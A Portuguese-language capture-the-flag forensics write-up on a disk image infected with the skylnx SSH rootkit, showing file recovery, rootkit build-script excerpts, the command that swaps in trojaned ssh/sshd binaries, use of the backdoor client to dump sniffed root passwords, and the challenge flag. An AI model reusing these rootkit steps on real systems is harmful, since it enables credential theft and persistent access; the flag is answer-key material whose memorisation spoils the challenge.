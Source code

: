 # CHALLENGE DA VIRADA (2018 -> 2019)

> Challenge da virada (2018 -> 2019)
> 
> Resolvido por: aguardando
> 
> Nome: Rootkit
> 
> Descrição: Suspeitamos que um de nossos servidores foi ownado pela Inteligência da Bloodsuckers. Tudo indica para o fato de terem instalado um binary rootkit em nosso sistema, visando conseguir nossas credenciais para tentarem usar em outros servidores. Faça uma análise forense no dump do sistema, e ao identificar o comprometimento, faça um reversing para identificar a senha que dá acesso ao dump (sniffer) das senhas. Após isso, entendendo o funcionamento do rk, obtenha a última senha legítima utilizada pelo root na máquina, pois achamos que ela foi mudada pelo pessoal da Inteligência por uma default deles, e também pode nos ser útil em outros dos seus sistemas, como a de dump! (o feitiço virou contra o feiticeiro!). Submeta no formato CTF-BR{SenhaUsadaParaDump,UltimaSenhaRootLegitima}. Não temos as credenciais, isso faz parte do desafio.
> 
> Categoria: Forensics
> 
> Link do arquivo: [aqui](https://static.pwn2win.party/2017/rootkit_3e4df5d6a3926cbc81ebf014a82098ad0964653aaedf581cd1bbc06eb3756642.tar.gz)
> 
> Write-up do vencedor: aguardando
> 
> Lançamento: 31 de dezembro de 2018
>
> Resolução: aguardando

**WRITE-UP**

Este ano o desafio do CTF-BR para o [Hall of Fame](https://ctf-br.org/hall-of-fame/) trouxe um desafio de forense bem interessante. Aparentemente um de nossos servidores foi ownado e pra melhorar instalaram um rootkit...!

![¬___¬'](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRlZRFJevs0yhUbh1NBE7QsxQ9VohUZ86ErbhudcxmxHi_15W7l "Malditos Hackers ¬__¬'")

O desafio nos pede para analisar o dump do sistema e determinar duas coisas:
  1. senha utilizada para dump, e;
  2. última senha root legítima.
 
Após o download primeiro verifiquei qual o tipo de arquivo:
![File type](https://i.imgur.com/ffFO7Wi.png)

Fazendo jus à minha fama de desconfiado, também confiro o hash do arquivo:

![epa, hashes diferentes? Õ_õ...esse gnx eh f0dz ](https://i.imgur.com/FCx4Sip.png)

Como o challenge não informou as credenciais desta máquina, resolvi seguir duas abordagens:
  1. recuperar os arquivos da imagem dada utilizando o [photorec](https://www.cgsecurity.org/wiki/PhotoRec), e;
  2. alterar a senha do root para facilitar a análise _ao vivo_ da máquina.
  
## Recuperando arquivos com o photorec 

O photorec é excelente para recuperação de arquivos. Basta criar um diretório de saída para os arquivos recuperados e executa-lo passando o arquivo da imagem como parâmetro:

```shell
mkdir photo
photorec ub1404lts-disk1.vmdk
```

![photorec](https://i.imgur.com/g5N10lA.png)


Feito isso, o programa recuperou diversos arquivos e os dividiu em 29 diretórios (recup_dir.xx). A idéia era procurar por algum indicativo deste malware na imagem. Como não sabia o que procurar tentei a string 'rootkit' \o/!

![grep -ri rootkit](https://i.imgur.com/ONzfU6R.png)

Analisando o script observamos que a senha utilizada para _dump_ é definida como MAGIC_VERSION no arquivo bonny.h, conforme destaque a seguir: 

```shell
cat <<_BONNY_ > version.h
#define SSH_VERSION     "$FAKEV"
#define SSH_PORTABLE    "$FAKEP"
#define SSH_RELEASE     SSH_VERSION SSH_PORTABLE
_BONNY_

: ${CBDPASS:=`./mkpasswd -p $UBDPASS`}
cat <<_BONNY_ > bonny.h
#define BD_PASS			"$CBDPASS"
#define MAGIC_VERSION	"$UDPPASS"
#define SKYCOMMAND      "$USPPASS"
_BONNY_
```

Ok, estamos um passo mais próximos de obter a nossa primeira flag (senha utilizada para o dump). Buscando por bonny.h encontramos outro fonte. O arquivo recuperado veio pela metade, mas ajudou a ter uma idéia melhor sobre o que procurar. 

![trecho do rootkit](https://i.imgur.com/DeiARfW.png)

Passando rapidamente pelo código, este rootkit substitui os binários do ssh e sshd por sua versão infectada (mas como o autor é bonzinho ele faz o backup dos arquivos para você antes de te infectar :)...

```script
mv /usr/bin/ssh ssh.old && cp ssh /usr/bin/ssh && mv /usr/sbin/sshd sshd.old && cp sshd /usr/sbin/sshd
```

Neste momento comecei a pesquisar por rootkits com estes nomes: skynet, skylnx e bonny, dentre outras strings que aparecem no fonte. Viajei por algum um tempo e lembrei que ainda não havia investigado a máquina. Com as informações que consegui até então ficou mais fácil procurar o que eu queria no sistema. _OBs: cabe ressaltar que a este ponto após analisar alguns arquivos que foram recuperados, encontrei um .tar.gz que possuía o fonte do rootkit skylnx._

## Análise da máquina 'viva'

Nesta análise utilizei uma máquina virtual Ubuntu que tinha pego da [OSBoxes](https://www.osboxes.org/) e apenas substitui seu disco pela imagem do desafio. As credenciais não foram informadas, então substituí a senha do [root](https://unix.stackexchange.com/questions/76313/change-password-of-a-user-in-etc-shadow) por _password_ alterando o [menu do grub](https://askubuntu.com/questions/24006/how-do-i-reset-a-lost-administrative-password).

![resetando senha do user](https://i.imgur.com/dkHZsez.png)

Agora com acesso comecei a investigar melhor o servidor SSH (/usr/sbin/sshd). Pude identificar que a versão do SSHD realmente havia sido modificada pelo rootkit:

```shell
root@rf-server4:/# grep skylnx /usr/sbin/sshd       
Binary file /usr/sbin/sshd matches
```

Reparei que não havia encontrado o arquivo bonny.h (que possui as senhas para operação do rootkit) nos arquivos recuperados pelo photorec. Então fiz uma pesquisa nos ELF (mais uma vez, salvo pelo SANTO STRINGS) e encontrei lá (no que deve ser o binário do SSHD) as senhas.

![rootkit strings](https://i.imgur.com/uwcUqFl.png)

Após mais algum tempo no código-fonte resolvi que daria muito trabalho criar o meu próprio cliente SSH para enviar as strings de versão que o rootkit estava esperando (mas pode ser um bom exercício se você está aprendendo programação). Como eu não confio no gnx (e você também não deveria) resolvi baixar o código do rootkit para a máquina ownada e comecei a brincar a partir dela. 

![rodando o rootkit](https://i.imgur.com/MlXoRxH.png)

Depois de algum tempo entendi o funcionamento do _skycommand.c_ e compilei o meu *skycmd* para conseguir realizar o dump que o desafio pede:
```script
root@rf-server4:/tmp/tmp.sQwn28gO1I/skylnx2# ./skycmd 127.0.0.1 22 wl4SUuXeSU
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
SSH-2.0-OpenSSH_6.6.1
pass_from: ::1 	user: root 	pass: ohcohYie9E
pass_from: 192.168.0.177 	user: root 	pass: ohcohYie9E
pass_from: 192.168.0.177 	user: root 	pass: AhooCo7wei
pass_from: 192.168.0.177 	user: root 	pass: OhCeW4ahsh             # última senha válida do root :)
pass_from: 192.168.0.177 	user: root 	pass: Woemash9ie4chee7Oe4p   # senha alterada pelos 'malditos hackers'
pass_from: 192.168.250.1 	user: user 	pass: password               # senha que nós alteramos
```

Aprendemos que o código possui três características principais:
  1. permite autenticação como root caso você informe a senha que foi configurada no BD_PASS;
  2. realiza um dump que revela as credenciais utilizadas nas últimas tentativas válidas de autenticação ao sistema-alvo, quando recebe como informação de versão local do cliente SSH a string configurada em MAGIC_VERSION; 
  3. executa um comando como root se você informar a string configurada em SKYCOMMAND se você executar o binário gerado pelo _skycommand.c_ como a versão local do cliente SSH seguida de um comando.

![client_version_string](https://i.imgur.com/DEWSlDT.png)
Gostei do desafio pois fazia uns 3 anos que não mexia com o photorec e nada relacionado a forense e investigação. Também foi muito bom para relembrar conceitos básicos de administração de SO (reset da senha do ubuntu), noções de programação e engenharia reversa.

## Here is a flag for you 
**FLAG: CTF-BR{wl4SUuXeSU,OhCeW4ahsh}**

\o/ RTFM \o/
